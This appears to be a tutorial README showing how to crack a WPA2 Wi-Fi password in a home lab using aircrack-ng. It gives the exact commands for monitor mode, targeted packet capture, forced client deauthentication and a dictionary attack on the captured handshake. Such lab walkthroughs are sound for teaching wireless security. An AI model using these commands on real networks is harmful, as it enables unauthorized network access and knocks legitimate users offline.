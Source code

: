 # WIFI Cracking

## Requirements
* [aircrack-ng](https://www.kali.org/tools/aircrack-ng/) - `Already installed in Kali distro`

## Demo setup

For the following demo I'm using a Lab setup to simulate a `real world` use case:
* Access point (AP)
    * Android device #1 with AP mode enabled with WPA2
* WIFI Client
    * Android device #2
* Attacker
    * Kali Linux VM with an external USB network adapter [TL-WN722N](https://www.amazon.es/TP-LINK-TL-WN722NV2-Adaptador-inal%C3%A1mbrico-10-6-10-11/dp/B002SZEOLG)

![](./img/demo_setup_wifi.png)

## Attack!

1. Setup the network adapter in monitor mode or promiscous

```bash
sudo airmon-ng check kill
sudo airmon-ng start wlan0 
```

2. Do a quick scan to get information about AP's nearby

```bash
sudo airodump-ng wlan0mon
```
![](./img/scan.png) 


3. Start a sniffing session capturing all packets directed to our target.

```bash
sudo airodump-ng -w demo -c 11 --bssid E6:10:XX:XX:XX:XX wlan0mon
```

![](./img/capture_wpa.png)

> Keep the session open. Next we will force a reconnection to gather a EAPOL handshake


4. Send a deauthentication packet to our target, spoofing a client already connected to the AP. This action will force a reconnection, sending a 4-Way Handshake (EAPOL) which we will use to crack the AP PSK

```bash
sudo aireplay-ng --deauth 2 -a E6:10:XX:XX:XX:XX -c 92:8C:XX:XX:XX:XX wlan0mon
```

![](./img/handshake.png)

> Notice the client is being disconnected from the network. After an automatic reconnection, we captured the EAPOL handshake!


5. Just to make sure, let's check the pcap file with wireshark to search for handshakes

```bash
wireshark demo-03.cap & 
```

![](./img/wireshark.png)

6. Now, we will perform a brute-force attack over the handshake captured using an existing dictionary

```bash
aircrack-ng demo-03.cap -w /usr/share/seclists/Passwords/WiFi-WPA/probable-v2-wpa-top4800.txt
```

![](./img/aircrack.png)

Done! You cracked the password `slipknot` a super secure one ;)


## Cleanup

Disable the monitor mode and restore networking processes

```bash
sudo airmon-ng stop wlan0mon
sudo service networking restart
sudo service NetworkManager restart
```

## References
- https://www.aircrack-ng.org/doku.php
- https://blogs.dsu.edu/digforce/2023/07/11/penetrating-networks-by-cracking-wpa2/
- https://book.hacktricks.wiki/en/generic-methodologies-and-resources/pentesting-wifi/index.html#wpawpa2-psk 


